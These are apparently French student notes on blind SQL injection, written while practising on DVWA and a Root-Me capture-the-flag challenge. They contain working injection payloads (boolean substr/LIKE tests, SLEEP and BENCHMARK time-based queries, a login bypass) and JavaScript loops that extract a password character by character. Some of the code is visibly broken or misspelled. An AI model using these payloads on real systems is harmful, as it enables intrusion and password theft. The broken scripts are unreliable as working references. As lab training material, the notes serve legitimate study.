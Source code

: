 # SQL Injection (Blind)


Exemple de boucle pour récupérer et tester toute les valeurs sur tous les caractères du mot de passe.

[Rappel : "abcdef0123456789" est le format hexadécimal !](https://sti2d.ecolelamache.org/ii_lhexadcimal.html)


```javascript
let idUser = 1;
let lettersPwd = [];

console.log("Recupération du MDP en cours ....");

"abcdef0123456789".split("").forEach((letter) => {
    for(i=1; i<=32;i++) {
        testLetter(letter, i);
    }
}
);

function testLetter(letter, position) {

    let injection = `${idUser}' AND substr( password , ${position}, 1) LIKE '${letter}' -- -`;
    fetch(`http://localhost:81/vulnerabilities/sqli_blind/?Submit=Submit&id=${injection}`).then( (response) => {
        if(response.ok) lettersPwd[position-1] = letter;
        if(lettersPwd.join('').length == 32) console.info(`le mdp : ${lettersPwd.join('')}`) 
    } );

}

```


### [SQL Injection - En aveugle](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-en-aveugle?lang=fr)

![Exercice](assets/picture/exercices_root_me_sql_injection_authentification_v0.02.png)

Dans cette exercice on remarque un formulaire avec action null ou cachée, avec 2 input (login, password) avec un submit.

J'aimerais lire le fichier index.php pour comprendre l'utilisation de la requête SQL 

Erreur php en hexa :
Erreur : + <?php echo(;>
Hexa : 3C3F706870206563686F283B3F3E


Login : "admin"
Password : " '3C3F706870206563686F283B3F3E

```php
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "3C3F706870206563686F283B3F3E" in /challenge/web-serveur/ch10/index.php on line 39
```

On peut verifier l'id

Login : admin' -- a
Password : 12345

```
Your informations :
- username : admin


Hi master ! To validate the challenge use this password

```

On va tester la longueur du password

Login : admin' AND LENGTH(password) > 1 -- a
Password : 12345

Testé jusqu'a 8 ou c'est une erreur, le mot de passe comporte bien 8 caractères

Login : admin' AND LENGTH(password) = 8 -- a
Password : 12345

On va tester tout les caractères

Login : admin' AND LEFT(password, 1) = 'a' -- a
Password : 12345

Login : admin' AND LOCATE('a',password, 1)  -- a
Password : 12345

Login : admin' AND substr( password , 1, 1) LIKE 'd' -- a
Password : 12345


Bon on va adapter notre premier script de brut force

```javascript
let idUser = 1;
let login = "admin";
let passwordLength = 8;
let lettersPwd = [];
let hexa = "abcdef0123456789";

for (i=1; i<passwordLenght*hexa.length(); i++){
    $('input').attr('name', 'username').value = `admin' AND substr( password , ${position[i]}, ${position + 1}) LIKE '${caracs[i]}' -- a`
}

console.log("Recupération du MDP en cours ....");

"abcdefghijklmnoparstuvwxyzABCDEFGHIJKLMNOPARSTUVWXYZ0123456789".split("").forEach((letter) => {
    for(i=1; i<=32;i++) {
        testLetter(letter, i);
    }
}
);
"abcdef0123456789".split("").forEach((letter) => {
    for(i=1; i<=32;i++) {
        testLetter(letter, i);
    }
}
);

function testLetter(letter, position) {

    let newInjection = encodeURI(`admin'AND substr(password, ${position}, 1 )=${letter} -- -`);
    fetch(`https://challenge01.root-me.org/web-serveur/ch10/`, {
        method: 'POST',
        headers : {"content-type":"application/x-www-form-urlencoded"}
    })
    let injection = `${idUser}' AND substr( password , ${position}, 1) LIKE '${letter}' -- -`;
    fetch(`http://challenge01.root-me.org/web-serveur/ch10/?Submit=Submit&id=${injection}`).then( (response) => {
        if(response.ok) lettersPwd[position-1] = letter;
        if(lettersPwd.join('').length == 32) console.info(`le mdp : ${lettersPwd.join('')}`) 
    } );

}

```

Attention : Fonction Sleep permet d'endormir l'execution du script.

Retour sur DVWA

```SQL
1' AND (SELECT SLEEP(5)
    FROM users
    WHERE user = "admin"
    AND LENGTH(password) = 32
    ) -- -

```

BenchMark : Par exemple avec 3 language de programmation, on va executé le meme script sur les différents languages pour définir le plus rapide.

SQK BecnhMark

ENCHMARK(LOOP, STATEMENT)

```SQL 
1' 1' AND (SELECT BENCHMARK(50000, MD5("toto"))
    FROM users
    WHERE user = "admin"
    AND BENCKMARK(1000, ) = 32
    ) -- -
```